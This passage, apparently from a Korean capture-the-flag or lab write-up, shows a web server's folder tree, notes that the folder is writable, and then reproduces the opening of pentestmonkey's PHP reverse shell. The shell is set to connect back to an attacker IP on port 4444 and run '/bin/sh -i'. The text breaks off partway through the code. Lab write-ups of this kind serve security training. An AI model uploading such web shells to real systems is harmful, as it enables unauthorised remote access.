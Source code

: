 ```bash
│   ├── footer-logo.png
│   ├── header-bg.png
│   ├── icon-1.png
│   ├── icon-2.png
│   ├── icon-3.png
│   ├── icon-4.png
│   ├── img-1.png
│   ├── img-2.png
│   ├── img-3.png
│   ├── img-4.png
│   ├── img-5.png
│   ├── img-6.png
│   ├── img-7.png
│   ├── img-8.png
│   ├── img-9.png
│   ├── instagram-icon.png
│   ├── left-arrow.png
│   ├── linkedin-icon.png
│   ├── logo.png
│   ├── quote-icon.png
│   ├── right-arrow.png
│   ├── search-icon.png
│   └── twitter-icon.png
├── index.html
└── js
    ├── bootstrap.bundle.min.js
    ├── custom.js
    ├── jquery-3.0.0.min.js
    ├── jquery.mCustomScrollbar.concat.min.js
    ├── jquery.min.js
    ├── plugin.js
    └── popper.min.js
```

웹사이트 폴더로 확인이 됩니다. 따라서 해당 폴더에 쓰기 권한이 있으므로 웹쉘을 업로드 하면 일반사용자 쉘을 획득 가능합니다.

웹쉘은 깃허브에 있는 페이로드를 참고하였습니다.

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.48';  // Kali linux IP
$port = 4444;       // Listening Port
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
```
